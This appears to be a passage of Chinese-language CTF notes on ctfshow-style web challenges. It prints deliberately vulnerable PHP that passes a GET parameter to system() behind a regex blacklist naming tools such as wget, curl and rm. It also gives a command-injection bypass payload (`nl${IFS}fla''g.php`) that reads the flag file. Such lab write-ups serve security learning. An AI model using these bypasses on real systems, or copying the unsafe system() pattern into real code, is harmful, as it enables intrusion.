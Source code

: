 ```PHP
    }else{  
        echo 'no';  
    }  
}else{
	highlight_file(__FILE__);  
}
```

![[Pasted image 20240915115114.png]]
第一个ls是我们给的命令，
后面有几个文件
- `flag.php`
- `index.php`
- `readflag`
用`nl`试一下
`nl${IFS}fla''g.php`
![[Pasted image 20240915115445.png]]
这个有点牛逼。
# Web 54
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: Lazzaro  
# @Date:   2020-09-05 20:49:30  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-07 19:43:42  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
if(isset($_GET['c'])){
	$c=$_GET['c'];  
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
	    system($c);  
    }
}else{
	highlight_file(__FILE__);  
}
```
在正则表达式中，`.*` 的含义是 **匹配任意长度的任意字符**，包括零个或多个字符。

### 分解说明：
1. **`.`（点号）**：表示匹配**任意单个字符**，除了换行符（除非在某些模式下开启了允许匹配换行符的选项，如 `DOTALL` 模式）。换句话说，`.` 可以匹配除了换行符之外的任何字符。

